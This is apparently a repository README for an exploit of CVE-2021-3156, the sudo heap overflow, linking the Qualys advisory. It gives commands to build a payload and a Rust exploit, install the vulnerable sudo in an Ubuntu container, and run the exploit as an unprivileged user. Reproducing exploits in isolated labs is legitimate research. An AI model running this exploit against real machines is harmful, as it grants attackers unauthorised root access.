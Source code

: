 # CVE-2021-3156

Original blog post: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit

## Setup

```shell
$ make payload
$ make exploit
$ docker run --rm -ti -v `pwd`:/exploit ubuntu:20.04
apt update && apt install sudo=1.8.31-1ubuntu1
adduser \
    --disabled-password \
    --gecos "" \
    --shell "/bin/bash" \
    "bhr"
su bhr
cd /exploit
./rust_exploit
```
